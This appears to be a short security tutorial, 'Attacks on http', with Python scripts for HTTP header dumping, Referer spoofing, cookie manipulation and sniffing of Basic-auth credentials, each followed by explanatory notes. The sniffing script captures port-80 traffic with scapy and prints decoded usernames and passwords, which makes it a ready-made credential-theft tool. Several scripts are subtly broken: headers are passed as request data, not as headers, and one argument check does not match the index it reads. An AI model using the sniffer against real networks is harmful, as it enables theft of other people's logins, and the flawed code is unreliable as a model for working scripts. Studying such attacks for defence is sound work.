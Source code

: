 # Attacks on http

## Attack tree

```text
1 HTTP header dumping
2 Referer spoofing
3 Manipulation of cookies
4 Auth sniffing
```

## Examples

### HTTP header dumping

For HTTPS connection specify the keyword argument `verify=False`
to suppress the verification of the validity of the SSL certificate. This can for example be
handsome for servers that use self-signed certificates.

```python
#!/usr/bin/python3

import sys
import requests

if len(sys.argv) < 2:
    print(sys.argv[0] + ": <url>")
    sys.exit(1)

r = requests.get(sys.argv[1])

for field, value in r.headers.items():
    print(field + ": " + value)
```

### Referer spoofing

```python
#!/usr/bin/python3

import sys
import requests

if len(sys.argv) < 2:
    print(sys.argv[0] + ": <url>")
    sys.exit(1)

headers = {'Referer': 'http://www.target.com'}
r = requests.get(sys.argv[1], data=headers)

print(r.content)
```

### Manipulation of cookies

```python
#!/usr/bin/python3

import sys
import requests

if len(sys.argv) < 3:
    print(sys.argv[0] + ": <url> <key> <value>")
    sys.exit(1)

headers = {'Cookie': sys.argv[2] + '=' + sys.argv[3]}
r = requests.get(sys.argv[1], data=headers)

print(r.content)
```

### Auth sniffing

```python
#!/usr/bin/python3

import re
from base64 import b64decode
from scapy.all import sniff

dev = "wlan0"

def handle_packet(packet):
    tcp = packet.getlayer("TCP")
    match = re.search(r"Authorization: Basic (.+)",
                      str(tcp.payload))

    if match:
        auth_str = b64decode(match.group(1))
        auth = auth_str.split(":")
        print("User: " + auth[0] + " Pass: " + auth[1])

sniff(iface=dev,
      store=0,
      filter="tcp and port 80",
      prn=handle_packet)
```

## Notes

### HTTP header dumping

Dump all HTTP header options received by a web server onto the screen.

### Referer spoofing

The `referer` contains the URL a request is originating from. Some web applications use it as a security
feature to figure out if the request comes from an internal network and if so, concludes that the user must therefore 
be logged in. Not a good idea as the referer header can freely be manipulated.

### Manipulation of cookies

HTTP is a stateless protocol. Every request sent by a client is independent of other requests. 
Developers can circumvent the stateless property of HTTP by pinning individual and hard-to-guess numbers to 
visitors in a `session id`. This id is then sent with every request to identify a client. It is valid for one session 
and deleted after a logout process or timeout. And it may get saved into a cookie. The complete cookie data gets sent
with every request belonging to the domain or host the cookie was generated from. And can be stolen and used. 
One does not expect them to get manipulated like HTTP headers, which makes them even more attractive. 

Cookies are sent with the help of the Cookie header and consist of key/value pairs
separated by a semicolon. The server uses the Set-Cookie header to ask the client to save
a cookie.

Some cookies are only valid for the current session and some until a
specific time unit like one day. If no `Expires` option was specified, the cookie is a session
cookie and gets restored after reopening the browser and restoring old sessions. 
If the word `Secure` appears in the cookie data this means that the cookie should only be sent over
HTTPS connections. This does not make it any more secure against manipulation.

### Auth sniffing

Most HTTP authentications are running in Basic mode. The login data is transferred in plaintext when selecting 
this method It may look like encrypted data, but it is only encoded with Base64 before it is sent over
the net.

In the payload search for the string `Authorization: Basic` and cut the following Base64 string
with the help of a regular expression. If this was successful, decode the string and split
by the colon into username and password. That is all it takes to circumvent `HTTP-Basic-Auth`.
